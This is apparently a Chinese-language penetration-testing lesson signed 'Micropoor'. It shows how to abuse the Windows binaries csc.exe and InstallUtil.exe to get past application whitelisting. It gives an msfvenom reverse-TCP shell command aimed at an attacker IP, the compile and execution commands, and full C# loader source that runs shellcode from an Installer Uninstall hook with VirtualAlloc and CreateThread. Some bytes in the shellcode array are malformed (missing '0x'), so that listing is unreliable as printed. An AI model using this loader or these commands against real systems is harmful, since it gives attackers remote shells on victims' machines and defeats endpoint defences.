




**注：**请多喝点热水或者凉白开，身体特别重要。

### Csc.exe简介：

C#的在Windows平台下的编译器名称是Csc.exe，如果你的.NET FrameWork SDK安装在C盘，那么你可以在C:\WINNT\Microsoft.NET\Framework\xxxxx目录中发现它。为了使用方便，你可以手动把这个目录添加到Path环境变量中去。用Csc.exe编译HelloWorld.cs非常简单，打开命令提示符，并切换到存放
test.cs文件的目录中，输入下列行命令:`csc /target:exe test.cs` 将Ttest.cs 编译成名为 test.exe 的 console 应用程序

**说明：** Csc.exe所在路径没有被系统添加PATH环境变量中，因此，csc命令无法识别。

### 基于白名单Csc.exe配置payload：

Windows 7 默认位置：
```code
C:\Windows\Microsoft.NET\Framework64\v2.0.50727\csc.exe
C:\Windows\Microsoft.NET\Framework\v2.0.50727\csc.exe
```

**攻击机：**192.168.1.4 Debian  
**靶机：**192.168.1.5 Windows 7

### 配置攻击机msf：


### 配置payload：
```code
msfvenom ‐p windows/x64/shell/reverse_tcp LHOST=192.168.1.4 LPORT=53 ‐ f csharp
```


copy buf 到 Micropoor_Csc.cs shellcode 中。  


### 靶机执行：
```code
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /r:System.Ente rpriseServices.dll /r:System.IO.Compression.dll /target:library /out:Mic opoor.exe /platform:x64 /unsafe C:\Users\John\Desktop\Micropoor_Csc.cs
```

```code
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Users\John\Desktop\Micropoor.exe
```


**与第七十二课相比，payload更为灵活。**

### 附录：Micropoor_Csc.cs

```csharp
using System;

using System.Net;

using System.Diagnostics;

using System.Reflection;

using System.Configuration.Install;

using System.Runtime.InteropServices; 


// msfvenom ‐p windows/x64/shell/reverse_tcp LHOST=192.168.1.4 LPORT=53 ‐f csharp 

public class Program

{

public static void Main()

{ 

}


} 

[System.ComponentModel.RunInstaller(true)]

public class Sample : System.Configuration.Install.Installer

{ 

public override void Uninstall(System.Collections.IDictionary savedState)

{ 

Shellcode.Exec(); 

} 

} 

public class Shellcode

{

public static void Exec()

{ 

byte[] shellcode = new byte[510] {

0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,

0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,x48,

0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,xc9,

0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,x41,

0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,x48,

0x01,0xd0,0x66,0x81,0x78,0x18,0x0b,0x02,0x0f,0x85,0x72,0x00,0x00,0x00,x8b,

0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,0xd0,0x50,x8b,

0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x56,0x48,0xff,0xc9,x41,

0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,xc1,

0xc9,0x0d,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,x45,

0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,0x66,0x41,x8b,

0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,0x8b,0x04,0x88,0x48,x01,

0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,x48,

0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,xe9,

0x4b,0xff,0xff,0xff,0x5d,0x49,0xbe,0x77,0x73,0x32,0x5f,0x33,0x32,0x00,x00,

0x41,0x56,0x49,0x89,0xe6,0x48,0x81,0xec,0xa0,0x01,0x00,0x00,0x49,0x89,xe5,

0x49,0xbc,0x02,0x00,0x00,0x35,0xc0,0xa8,0x01,0x04,0x41,0x54,0x49,0x89,xe4,

0x4c,0x89,0xf1,0x41,0xba,0x4c,0x77,0x26,0x07,0xff,0xd5,0x4c,0x89,0xea,x68,

0x01,0x01,0x00,0x00,0x59,0x41,0xba,0x29,0x80,0x6b,0x00,0xff,0xd5,0x6a,x0a,

0x41,0x5e,0x50,0x50,0x4d,0x31,0xc9,0x4d,0x31,0xc0,0x48,0xff,0xc0,0x48,x89,

0xc2,0x48,0xff,0xc0,0x48,0x89,0xc1,0x41,0xba,0xea,0x0f,0xdf,0xe0,0xff,xd5,

0x48,0x89,0xc7,0x6a,0x10,0x41,0x58,0x4c,0x89,0xe2,0x48,0x89,0xf9,0x41,xba,

0x99,0xa5,0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0x0a,0x49,0xff,0xce,0x75,xe5,

0xe8,0x93,0x00,0x00,0x00,0x48,0x83,0xec,0x10,0x48,0x89,0xe2,0x4d,0x31,xc9,

0x6a,0x04,0x41,0x58,0x48,0x89,0xf9,0x41,0xba,0x02,0xd9,0xc8,0x5f,0xff,xd5,

0x83,0xf8,0x00,0x7e,0x55,0x48,0x83,0xc4,0x20,0x5e,0x89,0xf6,0x6a,0x40,x41,

0x59,0x68,0x00,0x10,0x00,0x00,0x41,0x58,0x48,0x89,0xf2,0x48,0x31,0xc9,x41,

0xba,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x48,0x89,0xc3,0x49,0x89,0xc7,0x4d,x31,

0xc9,0x49,0x89,0xf0,0x48,0x89,0xda,0x48,0x89,0xf9,0x41,0xba,0x02,0xd9,xc8,

0x5f,0xff,0xd5,0x83,0xf8,0x00,0x7d,0x28,0x58,0x41,0x57,0x59,0x68,0x00,x40,

0x00,0x00,0x41,0x58,0x6a,0x00,0x5a,0x41,0xba,0x0b,0x2f,0x0f,0x30,0xff,xd5,

0x57,0x59,0x41,0xba,0x75,0x6e,0x4d,0x61,0xff,0xd5,0x49,0xff,0xce,0xe9,x3c,

0xff,0xff,0xff,0x48,0x01,0xc3,0x48,0x29,0xc6,0x48,0x85,0xf6,0x75,0xb4,x41,

0xff,0xe7,0x58,0x6a,0x00,0x59,0x49,0xc7,0xc2,0xf0,0xb5,0xa2,0x56,0xff,xd5 };


UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode .Length,

MEM_COMMIT, PAGE_EXECUTE_READWRITE);

Marshal.Copy(shellcode , 0, (IntPtr)(funcAddr), shellcode .Length);

IntPtr hThread = IntPtr.Zero;

UInt32 threadId = 0; 

IntPtr pinfo = IntPtr.Zero; 

hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);

WaitForSingleObject(hThread, 0xFFFFFFFF); 

} 

private static UInt32 MEM_COMMIT = 0x1000; 

private static UInt32 PAGE_EXECUTE_READWRITE = 0x40; 

[DllImport("kernel32")]

private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr,UInt32 size, UInt32 flAllocationType, UInt32 flProtect); 

[DllImport("kernel32")]

private static extern bool VirtualFree(IntPtr lpAddress,

UInt32 dwSize, UInt32 dwFreeType); 

[DllImport("kernel32")]

private static extern IntPtr CreateThread( 

UInt32 lpThreadAttributes,

UInt32 dwStackSize,

UInt32 lpStartAddress,

IntPtr param,

UInt32 dwCreationFlags,

ref UInt32 lpThreadId

);

[DllImport("kernel32")]

private static extern bool CloseHandle(IntPtr handle); 

[DllImport("kernel32")]

private static extern UInt32 WaitForSingleObject( 

IntPtr hHandle,

UInt32 dwMilliseconds

);

[DllImport("kernel32")]

private static extern IntPtr GetModuleHandle( 

string moduleName 

);

[DllImport("kernel32")]

private static extern UInt32 GetProcAddress( 

IntPtr hModule,

string procName 

);

[DllImport("kernel32")]

private static extern UInt32 LoadLibrary( 

string lpFileName 

);

[DllImport("kernel32")]

private static extern UInt32 GetLastError(); 

}
```
>   Micropoor
